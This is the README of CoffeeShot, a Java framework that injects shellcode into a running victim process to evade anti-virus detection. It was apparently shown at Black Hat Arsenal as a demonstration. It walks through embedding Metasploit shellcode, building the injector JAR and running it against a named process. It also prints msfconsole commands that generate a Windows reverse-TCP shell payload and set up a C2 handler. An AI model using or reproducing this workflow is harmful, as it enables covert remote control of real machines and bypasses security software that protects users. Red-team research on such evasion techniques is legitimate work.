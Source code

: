 ![CoffeeShot](https://i.imgur.com/zH0Yvis.png)

# :coffee: CoffeeShot: Avoid Detection with Memory Injection :syringe:
[![Arsenal](https://github.com/toolswatch/badges/blob/master/arsenal/usa/2018.svg)](https://www.toolswatch.org/2018/05/black-hat-arsenal-usa-2018-the-w0w-lineup/)

CoffeeShot is a framework which uses Java Native Access (aka JNA) and takes it to another level by looking for a victim process and once it finds it - a shellcode will be injected directly from the JAR file (meaning that CoffeeShot doesn't drop any malicious shellcode on the disk).

Java Native Access is an external Java library that allows you to call Windows APIs directly from your JAR file.

CoffeeShot is designed for demonstrating how Java-based malware can bypass most of the anti-virus vendors.

## Prerequisites:
* Eclipse (or any other IDE that supports Java)
* [Java Native Access](https://github.com/java-native-access/jna)
* Kali Linux with Metasploit

## Getting Started
1. Clone the project.
2. Import to Eclipse.
3. Add JNA and JNA-Platform libraries.
4. Insert your generated shellcode inside CoffeeShot project.
5. Build the Project.
6. Export to a runnable JAR file.

## Setup
### Add JNA and JNA-Platform libraries
- Start Eclipse
- In the project explorer, right-click on CoffeeShot folder, and select "Properties"
- Select "Java Build Path" on the left, and then the "Libraries" tab. Now, click the "Add External JARS..." button
- Locate and select "jna-4.5.0.jar" and "jna-platform-4.5.0.jar" files you downloaded from the [JNA](https://github.com/java-native-access/jna) github, and then click "Open"
- Finally, click "OK" to close the dialog box. You will know that everything went ok if, when you open your project folder, you see an item called "Referenced Libraries", and upon expanding this item, you see the packages "jna-4.5.0.jar" and "jna-platform-4.5.0.jar" listed.

## Build CoffeeShot with your shellCode
```
Copy our generated shellCode from Metasploit.
Paste\Insert the shellCode inside the CoffeeShot project, e.g.: "byte[] shellcode = {(byte) 0xfc, (byte) 0xe8...};"
Build the project
Export to runnable JAR
Execute CoffeeShot by:
> Java -jar CoffeeShot.jar [processName]
> processName example: notepad++.exe
```

## Demo
For demo purpose, we used Metasploit with shell reverse tcp

### Create a Java shellcode that is suitable for CoffeeShot
```
msfconsole
use payload/windows/shell_reverse_tcp
set LHOST x.x.x.x
set LPORT xxxx
generate -t java
```

### Create C2 for our shellcode
```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/shell_reverse_tcp
set LHOST
set LPORT
set ExitOnSession false
exploit -j
sessions
sessions -i 1
```

[![CoffeeShot Demo](https://i.imgur.com/nT0ZYl5.png)](https://youtu.be/MVwkjWB-Nx4)

## References
[Minerva Labs Blog Post](https://blog.minerva-labs.com/coffeeshot-avoid-detection-with-memory-injection)

## Authors
* **Asaf Aprozper (3pun0x)** - *Creator* - [Twitter](https://twitter.com/3pun0x) - [GitHub](https://github.com/3pun0x) 

## License
This project is licensed under the GPLv3 License - see the [LICENSE.md](https://www.gnu.org/licenses/gpl.html) file for details
Copyright © 2018 Minerva Labs CoffeeShot.  All rights reserved.

This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.
